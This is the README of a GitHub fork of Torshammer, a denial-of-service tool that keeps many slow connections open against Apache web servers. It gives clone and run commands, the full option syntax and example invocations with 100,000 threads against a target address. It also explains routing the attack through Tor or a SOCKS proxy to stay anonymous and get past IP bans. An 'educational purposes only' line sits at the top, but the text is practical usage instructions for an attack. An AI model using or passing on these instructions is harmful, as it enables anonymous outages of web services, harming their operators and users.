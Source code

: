 # Use for educational purposes ONLY

## This is a maintained fork of Torshammer
- It works with the new TOR port 9050.
- Python 3.x version compatible.
  - If you need python 2.x version, please use [Karlheinzniebuhr's torshammer](https://github.com/Karlheinzniebuhr/torshammer)


## TORS HAMMER HOW TO

### Installation

Clone source code

```console
git clone https://github.com/kucingbasah737/kb737-torshammer
cd kb737-torshammer
```
### Usage

```console
python torshammer.py
```

or:
```console
python3 torshamer.py
```

```
./torshammer.py -t <target> [-r <threads>] [-p <port>] [-T] [-S <sockshost> -P <socksport>] [-i <seconds>] [-s <seconds>] [-h]
 -t|--target <Hostname|IP>
 -r|--threads <Number of threads> Defaults to 256
 -p|--port <Web Server Port> Defaults to 80
 -T|--tor Enable anonymising through tor on 127.0.0.1:9050
 -S|--sockshost <SOCKS host addrees> eg: 127.0.0.1
 -P|--socksport <SOCSS host port> Defaults to 1080
 -i|--max-delay <max seconds beetwen packets in float> Defaults to 3.0
 -s|--pre-sleep-on-thread-start <max seconds beetween starting threads> Default to none
 -h|--help Shows this help
```
You should now see a terminal-based GUI interface.
**Tor'shammer interface has it's own basic help menu that tells you how to run the script according to your target.**

Example usage:
```console
python torshammer.py -t 192.168.1.100 -r 100000 -T
```

```console
python torshammer.py -t 192.168.1.100 -r 100000 -S 127.0.0.1 -P 8080
```

```console
python torshammer.py -t 192.168.1.100 -r 100000 -i 3.0 -s 1.0
```

- The larger the thread count, the more efficient and effective the attack!!
- -T adds the Tor function which provides security, as well, as providing a new identity in case the site is
programmed to ban IP addresses which leave an open connection for "x" amount of time. Tor'shammer's method of
combining this is clever and effective, making it the powerful tool it is. However, Tor'shammer is only effective to
apache servers which do not run nginx.

### Alternatives
- Another python3 working for is from [fckwarship](https://github.com/fckwarship/torshammer).

